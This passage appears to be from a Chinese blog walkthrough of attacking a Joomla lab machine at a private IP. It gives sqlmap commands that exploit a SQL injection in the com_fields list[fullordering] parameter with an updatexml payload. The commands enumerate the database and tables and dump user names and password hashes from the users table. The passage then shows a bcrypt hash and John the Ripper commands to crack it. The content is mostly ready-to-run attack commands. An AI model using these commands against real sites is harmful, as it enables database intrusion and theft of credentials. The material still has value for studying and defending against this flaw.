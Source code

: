 ![upload successful](https://lnng.top/images/pasted-153.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#sqlmap%E8%BF%9B%E8%A1%8C%E6%B3%A8%E5%85%A5 "sqlmap进行注入")sqlmap进行注入

```
爆数据库名
sqlmap -u "http://192.168.124.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,database()),1)" --dbs
```

![upload successful](https://lnng.top/images/pasted-154.png)

**upload successful**

```
爆表名
qlmap -u "http://192.168.124.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,database()),1)" -D "joomladb" --tables
```

![upload successful](https://lnng.top/images/pasted-155.png)

**upload successful**

```
爆字段名
sqlmap -u "http://192.168.124.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,database()),1)" -D "joomladb" -T "#__users" --columns
```

![upload successful](https://lnng.top/images/pasted-156.png)

**upload successful**

```
爆数据
sqlmap -u "http://192.168.124.147/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,database()),1)" -D "joomladb" -T "#__users" -C name,password --dump
```

![upload successful](https://lnng.top/images/pasted-157.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E5%B0%9D%E8%AF%95%E7%A0%B4%E8%A7%A3%E5%AF%86%E7%A0%81 "尝试破解密码")尝试破解密码

```
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

```
创建文件
echo '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu' > test
爆破密码
john test
john test --show
```
